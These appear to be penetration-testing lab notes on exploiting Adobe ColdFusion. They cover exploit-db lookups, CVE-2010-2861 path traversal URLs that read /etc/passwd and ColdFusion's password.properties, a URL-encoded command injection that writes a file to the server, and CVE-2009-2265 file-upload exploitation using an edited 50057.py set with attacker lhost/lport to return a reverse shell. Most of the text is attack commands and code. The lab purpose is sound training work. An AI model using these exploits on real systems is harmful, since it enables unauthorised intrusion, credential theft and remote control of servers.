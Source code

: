 ```
searchsploit adobe coldfusion
```

## Directory Traversal

CVE-2010-2861 allows the following path traversal
- CFIDE/administrator/settings/mappings.cfm
- logging/settings.cfm
- datasources/index.cfm
- j2eepackaging/editarchive.cfm
- CFIDE/administrator/enter.cfm
```
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd
```

```
searchsploit -p 14641
```


## Coldfusion - Exploitation
```
cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
python2 14641.py
```

## Coldfusion - Exploitation
```
python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
```
- Since we get the contents, target is vulnerable to CVE-2010-2861


## Unauthenticated RCE
```
# Decoded: http://www.example.com/index.cfm?; echo "This server has been compromised!" > C:\compromise.txt

http://www.example.com/index.cfm?%3B%20echo%20%22This%20server%20has%20been%20compromised%21%22%20%3E%20C%3A%5Ccompromise.txt
```

**CVE-2009-2265
```
http://www.example.com/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=
```
```
searchsploit -p 50057
cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
```

**Exploit Modification
```
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.55' # HTB VPN IP
    lport = 4444 # A port not in use on localhost
    rhost = "10.129.247.30" # Target IP
    rport = 8500 # Target Port
    filename = uuid.uuid4().hex
```

**Exploitation
```
python3 50057.py
```
- Will return reverse shell

